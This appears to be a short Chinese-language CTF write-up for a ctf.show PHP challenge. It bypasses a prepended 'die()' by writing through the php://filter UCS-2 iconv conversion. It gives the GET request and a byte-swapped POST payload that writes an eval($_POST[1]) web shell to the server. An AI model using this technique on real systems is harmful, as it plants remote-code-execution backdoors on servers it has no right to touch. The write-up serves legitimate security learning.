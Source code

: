 ```php
file_put_contents($file, "<?php die();?>".$contents); 
```

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

需要死亡绕过，然后base64和rot13都被ban了。所以只能寻找其他的过滤方式。补充死亡绕过的过滤方式了，jrm谁懂啊。这里用了刚刚学的ucs-2，然后我们看到其实除了这个他也没啥其他的陷阱，其余按照之前的思路写，就是过滤器形式啥的变了一下。

GET:

```php
http://c8302562-9e80-45b9-8120-88c1b16d2137.challenge.ctf.show/?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
```

POST:

```url
contents=?<hp pvela$(P_SO[T]1;)>?
```

写入成功了，但是这个没有回显，没关系，我们直接去看目录下的这个文件，然后传入查看文件的指令
